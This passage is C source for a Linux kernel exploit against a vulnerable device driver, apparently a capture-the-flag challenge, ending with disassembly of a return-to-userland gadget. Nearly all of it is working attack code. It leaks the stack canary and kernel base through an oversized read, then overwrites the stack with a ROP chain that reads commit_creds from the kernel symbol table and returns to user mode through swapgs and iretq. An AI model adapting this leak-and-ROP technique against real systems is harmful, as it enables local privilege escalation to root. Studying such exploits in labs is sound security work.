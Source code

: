 ```exploit.c
  *c++ = user_cs;
  *c++ = user_rflags;
  *c++ = user_sp;
  *c++ = user_ss;
  _write(fd, wbuf, 0x130);

  errExit("level1");
}

int main(int argc, char *argv[]) {
  printf("[.] NIRUGIRI @ %p\n", &NIRUGIRI);
  printf("[.] level1 @ %p\n", &level1);
  memset(wbuf, 'A', 0x200);
  memset(rbuf, 'B', 0x200);
  fd = open(DEV_PATH, O_RDWR);
  assert(fd > 0);

  // leak canary and kernbase
  _read(fd, rbuf, 0x1a0);
  canary = ((ulong*)rbuf)[0x10/8];
  printf("[+] canary: %lx\n", canary);
  kernbase = ((ulong*)rbuf)[38] - ((ulong)0xffffffffb080a157 - (ulong)0xffffffffb0800000);
  printf("[!] kernbase: 0x%lx\n", kernbase);

  // leak symbols from __ksymtab_xxx
  save_state();
  ulong *c = &wbuf[CANARY_OFF];
  memset(wbuf, 'A', 0x200);
  *c++ = canary;
  *c++ = '1'; // rbx
  *c++ = '2'; // r12
  *c++ = '3'; // rbp
  *c++ = kernbase + 0x4D11; // pop rax
  *c++ = kernbase + 0xf87d90; // __ksymtab_commit_creds
  *c++ = kernbase + 0x015a80; // mov eax, dword[rax]; pop rbp;
  *c++ = 'A'; // rbp
  *c++ = kernbase + 0x200f23; // go home(swapgs & iretq)
  for(int ix=0; ix!=5; ++ix) // rcx, rdx, rsi, rdi, none
    *c++ = 'A' + ix + 1;
  *c++ = &level1;
  *c++ = user_cs;
  *c++ = user_rflags;
  *c++ = user_sp;
  *c++ = user_ss;
  _write(fd, wbuf, 0x130);

  errExit("main");
  return 0;
}

/* gad go home
ffffffff81200f23:       59                      pop    rcx
ffffffff81200f24:       5a                      pop    rdx
ffffffff81200f25:       5e                      pop    rsi
ffffffff81200f26:       48 89 e7                mov    rdi,rsp
ffffffff81200f29:       65 48 8b 24 25 04 60    mov    rsp,QWORD PTR gs:0x6004
ffffffff81200f30:       00 00
ffffffff81200f32:       ff 77 30                push   QWORD PTR [rdi+0x30]
ffffffff81200f35:       ff 77 28                push   QWORD PTR [rdi+0x28]
ffffffff81200f38:       ff 77 20                push   QWORD PTR [rdi+0x20]
ffffffff81200f3b:       ff 77 18                push   QWORD PTR [rdi+0x18]
ffffffff81200f3e:       ff 77 10                push   QWORD PTR [rdi+0x10]
ffffffff81200f41:       ff 37                   push   QWORD PTR [rdi]
```